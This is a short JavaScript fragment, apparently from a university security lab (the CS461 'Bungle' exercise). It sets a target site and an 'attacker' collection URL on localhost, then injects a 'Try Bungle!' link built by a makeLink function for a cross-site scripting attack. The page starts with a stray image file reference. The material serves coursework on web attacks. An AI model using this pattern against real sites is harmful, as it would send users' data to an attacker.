

var xssdefense = 0;
var target = "http://bungle.cs461.cs.Illinois.edu/";
var attacker = "http://127.0.0.1:31337/stolen";

$(function() {
    var url = makeLink(xssdefense, target, attacker);
    $("h3").html("<a target=\"run\" href=\"" + url + "\">Try Bungle!</a>");
});